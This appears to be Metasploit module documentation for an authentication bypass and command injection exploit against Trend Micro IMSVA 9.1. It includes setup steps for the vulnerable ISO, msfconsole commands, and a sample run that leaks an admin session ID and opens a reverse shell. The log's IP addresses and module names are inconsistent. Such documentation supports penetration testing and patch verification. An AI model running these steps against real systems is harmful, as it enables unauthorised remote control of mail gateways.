 ## Vulnerable Application
This module exploits the authentication bypass and command injection vulnerability together. Unauthenticated users can execute a terminal command under the context of the web server user.

The specific flaw exists within the management interface, which listens on TCP port 443 by default. Trend Micro IMSVA product have widget feature which is implemented with PHP. Insecurely configured web server exposes diagnostic.log file, which leads to an extraction of JSESSIONID value from administrator session. Proxy.php files under the mod TMCSS folder takes multiple parameter but the process does not properly validate a user-supplied string before using it to execute a system call. Due to combination of these vulnerabilities, unauthenticated users can execute a terminal command under the context of the web server user.

**Vulnerable Application Installation Steps**

IMSVA is distrubed as an ISO image by Trend Micro.

Following steps are valid on the CentOS 6 x64 bit operating system.

1. Open following URL [http://downloadcenter.trendmicro.com/](http://downloadcenter.trendmicro.com/)
2. Find "InterScan Messaging Security (Virtual Appliance)" and click.
3. At the time of writing this documentation, you must see "IMSVA-9.1-1600-x86-64-r2.iso" next to Download button.
4. Click to the download button and complete installation of ISO.

If you don't see a affected version of IMSVA, you can try to download IMSVA-9.1-1600 directly from following URL.

[http://files.trendmicro.com/products/imsva/9.1/IMSVA-9.1-1600-x86_64-r2.iso](http://files.trendmicro.com/products/imsva/9.1/IMSVA-9.1-1600-x86_64-r2.iso)

**System requirements:**
- Virtualbox or VMware can be used. 
- 4 GB of memory at least.
- 120 GB of disk size at least.

## Verification Steps

A successful check of the exploit will look like this:

- [ ] Start `msfconsole`
- [ ] `use exploit/windows/http/trendmicro_imsva_widget_exec`
- [ ] Set `RHOST`
- [ ] Set `LHOST`
- [ ] Run `check`
- [ ] **Verify** that you are seeing `The target appears to be vulnerable.`
- [ ] Run `exploit`
- [ ] **Verify** that you are seeing `Awesome. JSESSIONID value` in console.
- [ ] **Verify** that you are getting `Session with widget framework successfully initiated` session.

## Scenarios

```
msf > use exploit/windows/http/trendmicro_imsva_widget_exec
msf exploit(trendmicro_officescan_exec) > set RHOST 12.0.0.201
RHOST => 12.0.0.184
msf exploit(trendmicro_officescan_exec) > check
[*] 12.0.0.184:443 The target appears to be vulnerable.
msf exploit(trendmicro_officescan_exec) > exploit 

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Extracting JSESSIONID from publicly accessible log file
[+] Awesome. JSESSIONID value = 0567E974AE729E58178C9B513FEBE41E
[*] Initiating session with widget framework
[+] Session with widget framework successfully initiated.
[*] Trigerring command injection vulnerability
[*] Command shell session 1 opened (12.0.0.1:4444 -> 12.0.0.201:44103) at 2017-10-08 18:05:11 +0300

pwd
/opt/trend/imss/UI/adminUI/ROOT/widget

```